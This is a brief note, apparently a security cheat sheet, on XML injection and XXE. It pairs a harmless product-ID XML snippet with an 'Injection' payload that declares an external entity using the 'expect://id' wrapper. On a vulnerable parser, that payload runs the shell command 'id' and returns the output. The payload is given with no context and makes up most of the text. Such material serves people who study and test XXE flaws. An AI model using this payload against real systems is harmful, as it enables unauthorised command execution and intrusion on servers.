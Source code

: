 #xmli #xxe #xml 

## Code
```xml
<?xml version="1.0" encoding="UTF-8"?>
<productId>1</productId>
```

## Injection
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY myVar SYSTEM 'expect://id'>]>
<root>&myVar;</root>
```